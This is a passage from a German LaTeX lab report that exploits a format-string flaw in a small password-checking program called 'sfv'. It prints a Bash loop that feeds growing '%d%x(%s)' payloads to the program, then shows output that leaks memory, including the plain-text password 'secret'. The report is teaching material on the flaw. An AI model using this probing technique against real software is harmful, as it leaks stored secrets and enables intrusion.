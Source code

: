 \subsection{Script zur Automatisierung}
Es wurde ein Bash-Script geschrieben, das diese Schwachstalle
automatisiert ausnutzt: 
\begin{lstlisting}
#!/bin/sh
make
if [ $# -eq 0 ]
then
   echo "Error - Number missing form command line argument"
   echo "Syntax : $0 number"
exit 1
fi
n=$1
input="%d%x(%s)"
var="%d"
i=0
while [ $i -le $n ]
do
  echo $input | ./sfv
  input=$var$input
  i=`expr $i + 1`
done
\end{lstlisting}
Es bekommt als Argument eine Zahl übergeben, wie oft die darunterliegenden Schleife durchlaufen werden soll, also wie
viele aufeinanderfolgende Speicheradressen man sich ansehen möchte. Ruft man das Script mit Argument 5 auf sieht der 
Output folgendermaßen aus:
\begin{lstlisting}
$ ./exploit.sh 10
make: Für das Ziel »all« ist nichts zu tun.
Passwort eingeben:
./exploit.sh: Zeile 18: 12848 Fertig                  echo $input
     15060 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4260 Fertig                  echo $input
     14752 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4632 Fertig                  echo $input
      9568 Segmentation fault      | ./sfv
Passwort eingeben:
./exploit.sh: Zeile 18:  4812 Fertig                  echo $input
     13024 Segmentation fault      | ./sfv
Passwort eingeben:
2337844162899732816801720691680172069201571638929732528()

Passwort eingeben:
23378441628997328168017206916801720691680172069623409189a2973(secret
)

Passwort eingeben:
23378441628997328168017206916801720691680172069201571638975461524020bb(test

Passwort eingeben:
233784416289973281680172069168017206916801720691680172069265219742026834020b5(
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
Passwort eingeben:
233784416289973281680172069168017206916801720691680172069245046942026834202677
\end{lstlisting}
Der Output ist natürlich systemabhängig und kann auf 32-bit Prozessoren ganz anders aussehen als auf 64-bit Prozessoren.
Auch macht es einen Unterschied ob man Linux oder Linux-Emulatoren, wie das hier verwendete Cygwin, verwendet.
Bekommt man keine Strings zurück gibt es entweder keine oder man sollte die Schleifendurchläufe erhöhen.
In diesem Durchlauf sind wir auf 2 Strings gestoßen, test und secret. Letztes ist dann auch das gesuchte Passwort, das
im Quellcode Plain-Text als Zeichenkette gespeichert wurde.

